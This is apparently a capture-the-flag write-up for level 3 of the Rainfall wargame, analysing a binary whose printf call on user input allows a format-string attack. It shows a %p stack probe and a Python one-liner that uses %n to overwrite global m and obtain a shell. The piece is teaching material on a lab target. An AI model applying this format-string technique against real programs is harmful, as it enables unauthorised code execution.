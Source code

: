 # Rainfall - Level 3

## Executable Analyse
The program contain 2 functions.
`main` and `v`.
`v` is called by `main`, and use a buffer, fgets(), and then print the user input.  


## Vulnerability

The interesting one is v(), because it contain our vulnerability : system("/bin/sh").
In order to enter in the vulnerable condition, we need to set m == 64.

``` asm

(gdb) info var
[...]
0x0804988c  m

```

## Format string attack

We can try to see what the addresses read by `printf` as arguments contain :  

```
$> ./level3
ABCD %p %p %p %p %p %p %p %p

ABCD 0x200 0xb7fd1ac0 0xb7ff37d0 0x44434241 0x20702520 0x25207025 0x70252070 0x20702520
```

From the 4th address (`0x44434241`) we can see that printf receives the contents of our buffer as an argument.  

Let's store m's address in this 4th block.  
We can then use the first 3 addresses to display 64 bytes and pass the condition with the %n flag

> %n will write the n character position


```shell
(python -c "print b'\x08\x04\x98\x8c'[::-1] + '%20p%20p%20p%n'" ; cat ) | ./level3
```

